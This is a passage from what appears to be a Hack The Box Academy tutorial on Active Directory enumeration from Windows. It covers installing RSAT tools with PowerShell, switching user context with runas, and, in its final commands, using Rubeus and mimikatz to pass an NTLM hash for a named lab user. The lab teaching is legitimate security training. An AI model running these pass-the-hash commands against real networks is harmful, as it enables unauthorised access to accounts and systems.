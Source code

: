 From here, we can choose to install all available tools using the following command:

#### PowerShell - Install All Available RSAT Tools

```powershell
PS C:\htb> Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability –Online

```

We can also install tools one at a time as needed.

#### PowerShell - Install an RSAT Tool

```powershell
PS C:\htb> Add-WindowsCapability -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0  –Online

```

Once installed, all of the tools will be available under `Administrative Tools` in the `Control Panel`.

![image](https://academy.hackthebox.com/storage/modules/22/RSAT_cp.png)

* * *

## Domain Context for Enumeration

Many tools are missing credential and context parameters and instead get those values directly from the current context. There are a few ways to alter a user's context in Windows if you have access to a password or a hash, such as:

Using " `runas /netonly`" to leverage the built-in [runas.exe](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) command line tool.

#### CMD - Runas User

```cmd-session
C:\htb> runas /netonly /user:htb.local\jackie.may powershell

```

Other tools that we will discuss in later modules, such as [Rubeus](https://github.com/GhostPack/Rubeus) and [mimikatz](https://github.com/gentilkiwi/mimikatz) can be passed cleartext credentials or an NTLM password hash.

#### CMD - Rubeus.exe Cleartext Credentials

```cmd-session
C:\htb> rubeus.exe asktgt /user:jackie.may /domain:htb.local /dc:10.10.110.100 /rc4:ad11e823e1638def97afa7cb08156a94

```

#### CMD - Mimikatz.exe Cleartext Credentials

```cmd-session
C:\htb> mimikatz.exe sekurlsa::pth /domain:htb.local /user:jackie.may /rc4:ad11e823e1638def97afa7cb08156a94

```
